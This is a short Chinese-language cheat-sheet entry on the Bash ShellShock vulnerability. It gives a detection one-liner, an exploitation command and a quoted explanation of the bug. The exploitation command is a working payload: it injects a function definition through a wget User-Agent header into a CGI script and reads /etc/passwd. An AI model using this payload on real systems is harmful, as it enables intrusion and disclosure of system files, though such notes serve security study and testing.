 ### [Bash] ShellShock
检测方法：
```
#!bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

利用方法：
```
#!bash
wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.248.2.15/cgi-bin/testing.cgi
```
漏洞原因：
> Bash supports exporting not just shell variables, but also shell
functions to other bash instances, via the process environment to
(indirect) child processes ... The vulnerability occurs because
bash does not stop after processing the function definition; it
continues to parse and execute shell commands following the function
definition.